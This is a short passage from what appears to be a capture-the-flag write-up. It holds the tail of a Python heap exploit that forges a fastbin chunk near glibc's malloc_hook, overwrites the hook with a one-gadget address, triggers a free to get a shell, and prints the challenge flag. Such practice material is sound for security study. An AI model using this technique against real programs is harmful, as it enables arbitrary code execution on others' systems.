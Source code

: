 ```python
payload += p64(0x71) # b2 -> size
payload += p64(libc_malloc_hook - 0x13) # b2 -> fd
func_PUT("A", payload.ljust(0xe8, "A"))

func_PUT("b2", "A"*0x68)

payload = "\x7f\x00\x00"
payload += p64(libc_one) # malloc_hook
func_PUT("malloc_hook", payload.ljust(0x68, "\x00"))

func_DEL("A") # exploit

s.interactive()
```

### flag{one_null_byte_t0_rul3_them_all_4ecd68f0}
